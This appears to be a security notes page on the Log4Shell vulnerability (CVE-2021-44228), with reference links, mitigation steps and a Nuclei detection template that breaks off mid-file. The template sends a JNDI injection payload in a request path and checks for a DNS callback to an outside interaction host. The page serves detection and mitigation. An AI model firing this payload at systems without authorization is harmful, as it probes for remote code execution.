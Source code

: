 ```yaml
---
sidebar_position: 1
---
```


# Log4j

## About

* Vuln detais: https://logging.apache.org/log4j/2.x/security.html
* Some more info: https://www.kaspersky.com/blog/log4shell-critical-vulnerability-in-apache-log4j/43124/
* Github PoC: https://github.com/kozmer/log4j-shell-poc
* TryHackMe Lab: https://tryhackme.com/room/solar
* BlueTeam CheatSheet: https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592
* Cheat Sheet: https://www.techsolvency.com/story-so-far/cve-2021-44228-log4j-log4shell/


## How to Mitigate

Follow this link for updates: https://logging.apache.org/log4j/2.x/security.html

**Log4j 1.x mitigation**: Log4j 1.x is not impacted by this vulnerability.

**Log4j 2.x mitigation**: Implement one of the mitigation techniques below.

* Java 8 (or later) users should upgrade to release 2.16.0.
* Users requiring Java 7 should upgrade to release 2.12.2 when it becomes available (work in progress, expected to be available soon).
* Otherwise, remove the JndiLookup class from the classpath: zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

Note that only the log4j-core JAR file is impacted by this vulnerability. Applications using only the log4j-api JAR file without the log4j-core JAR file are not impacted by this vulnerability.

## Nuclei Template

```bash
nuclei -t template.yaml -u "https://target.url" interactsh-url="http://interact-sh.url"
```

```yaml
id: CVE-2021-44228 

info:
  name: Log4J RCE
  author: iNvist / hazcod
  severity: critical
  description: CVE-2021-44228 

requests:
  - raw:
    - | 
        GET /{{Path}}${jndi:dns://{{interactsh-url}}:80/d HTTP/1.1
        Host: {{Hostname}}
    matchers-condition: or
    matchers:
    - type: word
      part: interactsh_protocol # Confirms the DNS Interaction
      words:
        - "dns"

  - raw:
    - | 
```